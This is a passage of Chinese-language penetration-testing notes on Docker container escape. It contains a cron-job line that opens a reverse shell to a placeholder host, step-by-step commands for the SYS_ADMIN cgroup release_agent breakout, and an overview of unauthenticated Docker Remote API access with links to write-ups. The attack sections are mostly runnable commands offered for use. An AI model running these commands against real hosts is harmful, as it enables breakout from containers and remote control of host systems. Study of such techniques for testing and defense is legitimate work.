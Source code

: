 4. 写入计划任务到宿主机
    ```bash
    echo '* * * * * bash -i >& /dev/tcp/x.x.x.x/2100 0>&1' >> /aaa/var/spool/cron/root
    ```

**capability SYS_ADMIN**

- 前提
    - 在容器内 root 用户
    - 容器必须使用 SYS_ADMIN Linux capability 运行
    - 容器必须缺少 AppArmor 配置文件，否则将允许 mount syscall
    - cgroup v1 虚拟文件系统必须以读写方式安装在容器内部

- 概述

    我们需要一个 cgroup，可以在其中写入 notify_on_release 文件(for enable cgroup notifications)，挂载 cgroup 控制器并创建子 cgroup，创建 `/bin/sh` 进程并将其 PID 写入 cgroup.procs 文件，sh 退出后执行release_agent 文件。

1. 主机使用 SYS_ADMIN Linux capability 运行一个 docker 容器
    ```bash
    docker run -it --cap-add=SYS_ADMIN --security-opt apparmor=unconfined ubuntu /bin/bash
    ```

2. 挂载 cgroup 控制器并创建子 cgroup
    ```bash
    mkdir /tmp/cgrp && mount -t cgroup -o rdma cgroup /tmp/cgrp && mkdir /tmp/cgrp/x
    ```
    > 注:如果这里报错"mount: /tmp/cgrp: special device cgroup does not exist.",将 rdma 改为 memory

3. 创建 `/bin/sh` 进程并将其 PID 写入 cgroup.procs 文件，sh 退出后执行 release_agent 文件。
    ```bash
    echo 1 > /tmp/cgrp/x/notify_on_release
    host_path=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
    echo "$host_path/cmd" > /tmp/cgrp/release_agent

    cat /tmp/cgrp/release_agent

    echo '#!/bin/sh' > /cmd
    echo "ls > $host_path/output" >> /cmd
    chmod a+x /cmd
    sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"
    head /output
    ```

**Docker Remote API 未授权访问漏洞**
- 概述

    Docker Remote API 是一个取代远程命令行界面（rcli）的 REST API。存在问题的版本分别为 1.3 和 1.6 因为权限控制等问题导致可以通过 docker client 或者 http 直接请求就可以访问这个 API，通过这个接口，我们可以新建 container，删除已有 container，甚至是获取宿主机的 shell。

- 相关文章
    - [新姿势之Docker Remote API未授权访问漏洞分析和利用](https://wooyun.js.org/drops/%E6%96%B0%E5%A7%BF%E5%8A%BF%E4%B9%8BDocker%20Remote%20API%E6%9C%AA%E6%8E%88%E6%9D%83%E8%AE%BF%E9%97%AE%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90%E5%92%8C%E5%88%A9%E7%94%A8.html)
    - [Docker Remote API未授权访问漏洞复现](https://zgao.top/docker-remote-api%E6%9C%AA%E6%8E%88%E6%9D%83%E8%AE%BF%E9%97%AE%E6%BC%8F%E6%B4%9E%E5%A4%8D%E7%8E%B0/)
    - [Docker daemon api 未授权访问漏洞](https://mp.weixin.qq.com/s/sPNEQ5n0rQEspTi7UescLg)
